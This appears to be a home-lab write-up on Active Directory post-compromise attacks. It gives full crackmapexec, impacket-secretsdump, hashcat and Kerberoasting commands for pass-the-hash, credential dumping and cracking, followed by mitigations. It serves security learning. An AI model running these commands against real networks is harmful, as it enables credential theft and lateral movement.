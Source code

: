 Setup win2022 server: 192.168.64.138  
Setup Peterparker: \192.168.64.140  
Setup Frankcastle: 192.168.64.139  
Kali: \192.168.64.129/24  

---

## 🚩 'Pass Attacks' - Pass the Password  

### Pass the Password  
With a SAM dump and cracked hash, we have the ability to push the credentials around with every device that has the ability to recieve and accept the login attempt.  

crackmapexec SMB Password abuse: 

    crackmapexec smb 192.168.64.0/24 -u fcastle -d MARVEL.local -p Password1

![image](https://github.com/user-attachments/assets/025b48ea-6702-4094-ae25-c54168fb1607)
We can see that the username and password has been passed around the network and was successful only on Spiderman and Thepunisher devices. Although there was a succesful authentication on Hyrda-DC, fcastle is not a local admin on that device therefore there is no login. 

---

## 🚩 'Pass Attacks' - Pass the Hash  
With a SAM dump containing local Admin credentials (likely gathered during the initial attack stage), we can also pass a local admin account username with hash around the network and observe which devices accept these credentials.

crackmapexec SMB Hash abuse:

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth

![image](https://github.com/user-attachments/assets/13e70253-c999-4110-baf0-1cab4d1841f4)  
Local admin account succesful for Spiderman and Thepunisher  

### Note 1 Information gathering  
**Adding the below flags behind --local-auth:**  
--sam (dumps all local SAM files found)  
--shares (shows all accessbile shares)  
--lsa (local security authority)  

    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth --sam

### Note 2 (SMB) Modules  
**crackmapexec smb -L will list out all the modules we can use with SMB by adding -M behind --local-auth:**  
-L  
-M Lsassy  

    crackmapexec smb -L
    crackmapexec smb 192.168.64.0/24 -u administrator -H aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc --local-auth -M lsassy  

### Note 3 crackmapexec database

    root@kali:/home/kali# cmedb
    cmedb (default)(smb) > help
![image](https://github.com/user-attachments/assets/d758e9f9-056b-40b3-ac2e-262eac9cd2b6)  

---

## 🚩 Dumping and Cracking Hashes (Secretsdump) with password
With impacket(secretsdump) we will now use a known account credentials to dump the secrets of the machine to see further information. This can present further SAM dumps, domain admin passwords in clear texts and vulnerabile protocols such as wdigest existing on older machines which could be force / enabled for abuse.  

    impacket-secretsdump MARVEL.local/fcastle:'Password1'@192.168.64.139
    
![image](https://github.com/user-attachments/assets/8fc185f1-06ba-4f4f-bd89-968163496df4)  
SAM hashes to note: Admin, User accounts, DCC

## 🚩 Dumping and Cracking Hashes (Secretsdump) with hash
Secretsdump can also provide further information of a device in the event the passwords cannot be cracked. 

    /home/kali# impacket-secretsdump administrator@192.168.64.139 -hashes aad3b435b51404eeaad3b435b51404ee:fbdcd5041c96ddbd82224270b57f11fc
    
![image](https://github.com/user-attachments/assets/a1c69bd3-1ac7-44be-8bc4-9a43d31fc827)  
In this case we could see an account with username Administrator with the "$DCC2$" which is usually the prefix for ntlmv2 hashing with the hash we could potentially attempt to crack and maybe attain a password for a domain administrator.  

whenever we come across new hashes through the Post Compromise lateral movement, we want to atleast attempt a password crack. The below example, will use hashcat to crack a ntlm hash.

    hashcat -m 1000 ntlm11.txt /usr/share/wordlists/rockyou.txt
![image](https://github.com/user-attachments/assets/116f014c-41f1-468b-a32d-0bec13b7c56f)

### Note 1 Hashcat  
When running hashcat, ensure the correct mode -m is selected for the hash type. Correct modes to hash types can be found online, and hash-identifier.

---

## 🔵 Pass Attack Mitigations  
### Limit account re-use:  
* Avoid re-using local admin passwords  
* Disable Guest and Administrator accounts  
* Limit who is a local administrator (least priviliege)  

### Utilize strong passwords (harder to crack):
* Long passwords
* Avoid using common words
* Use long sentences

### Privilige Access Management (PAM):
* Check in / out sensitive accounts - CyberArk
* Automatically rotate passwords on check out and check in
* limits pass attacks as hash and password is strong and constantly rotated.

### LAPS - Local Administrator Password Solution, MS tool used to manage local administrator passwords of computers in a domain environment
* Enable the usage of LAPS (Local Administratot Password Solution) - Ensures unique passwords for local admin accounts on each machine.
* prevents common and reused passwords across multiple machines.

---

## 🚩 Kerberoasting  
Goal of Kerberoasting: With an **account on the network**, get ticket Granting Service Ticket (TGS) from the KDC and decrypt server's account hash that is presented back (step 4 of diagram).
![image](https://github.com/user-attachments/assets/1109a3ee-1433-44e6-9caf-a04e757129fb)  

Using impacket-GetUserSPNs we now direct our compromised account towawrds the Service Principle Name (our DC) for a TGS | impacket-GetUsersSPNs DOMAIN/username:password -dc-ip 192.168.64.138 -request

    impacket-GetUsersSPNs MARVEL.local/fcastle:Password1 -dc-ip 192.168.64.138 -request

![image](https://github.com/user-attachments/assets/e4d79c04-c03d-46af-bcab-3437bfc0b4f0)

Now that we have obtained a hash from the TGS, we can now proceed to crack it.

    root@kali:/home/kali/tempdeletelater# hashcat -m 13100 krbhash.txt /usr/share/wordlists/rockyou.txt

![image](https://github.com/user-attachments/assets/51b91c22-77f8-4e61-93d7-4ac65d5eec1b)  

Now that we have obtained the Service / Domain Admin credentials, we can go back to using tools such as PsExec, *exec, RDP etc to gain shell access and officially compromise the account.

---

## 🔵 Kerberoasting Mitigation  
Service Accounts should not be running as Domain Admin priviliges, as this is a common fault in many engagements.  
* Strong Passwords - makes it harder to crack  
* Least Privilege model  
* Do not place passwords in any descriptions of the AD account
